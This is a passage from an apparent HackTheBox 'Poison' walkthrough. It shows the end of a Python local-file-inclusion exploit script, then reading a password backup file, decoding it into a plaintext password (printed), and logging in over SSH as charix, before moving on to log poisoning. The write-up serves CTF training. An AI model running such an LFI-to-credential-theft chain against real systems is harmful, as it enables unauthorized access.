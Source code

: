 ```py
            else:
                print(bytes(output.text, "utf-8").decode('unicode_escape').strip('"'))
        else:
            print("[+] Exxxxitting.... !! [+]")
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    # Read LFI
    readFileGET(rhost)

if __name__ == '__main__':
    main()
```

If we take a look on the listfiles.php we found a passwdbwk.txt which is very interesting for us

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:02:10.png)

And after looking the message errors to get the web root folder we get the password backup

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:04:33.png)

```
/usr/local/www/apache24/data/pwdbackup.txt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:04:12.png)

And after 13 times decode it, we got a password

**Charix!2#4%6&8(0**

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:07:12.png)

### SSH Charix

And we simply ssh in the session with this password, once we know that we have a charix user (seen on /etc/passwd)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2001:12:50.png)

But that is not the way I would like to explore this box. I will do that with a log poison.

### Log Poison
